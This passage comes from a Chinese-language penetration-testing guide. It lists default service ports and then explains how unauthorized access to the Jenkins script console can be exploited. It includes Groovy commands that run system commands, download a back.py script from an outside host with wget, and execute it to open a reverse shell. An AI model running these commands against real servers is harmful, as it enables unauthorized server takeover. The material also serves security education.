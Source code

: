*   master 默认端口 60010

*   regionserver 默认端口60030



e)hive-server2 默认端口 10000



f)spark-jdbcserver 默认端口 10003



### 十：Jenkins未授权访问



**漏洞描述**



默认情况下 [Jenkins](https://so.csdn.net/so/search?q=Jenkins&spm=1001.2101.3001.7020) 面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进脚本执行界面从而获取服务器权限。



**漏洞利用**



1、Jenkins未授权访问可执行命令



http://www.secpulse.com:8080/manage  

http://www.secpulse.com:8080/script  

[![jenkins-1](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvamVua2lucy0xLnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/jenkins-1.png)



**println "ifconfig -a".execute().text 执行一些系统命令**  

[![jenkins-2](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvamVua2lucy0yLnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/jenkins-2.png)  

**直接wget下载back.py反弹shell**



> println "wget http://xxx.secpulse.com/tools/back.py -P /tmp/".execute().text  

> println "python /tmp/back.py 10.1.1.111 8080".execute().text



back.py并不需要root权限  

[![jenkins-3](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvamVua2lucy0zLnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/jenkins-3.png)



**不想反弹试试Terminal Plugin**  

[![jenkins-4](https://imgconvert.csdnimg.cn/aHR0cDovL3d3dy5zZWNwdWxzZS5jb20vd3AtY29udGVudC91cGxvYWRzLzIwMTcvMDkvamVua2lucy00LnBuZw)](http://www.secpulse.com/wp-content/uploads/2017/09/jenkins-4.png)

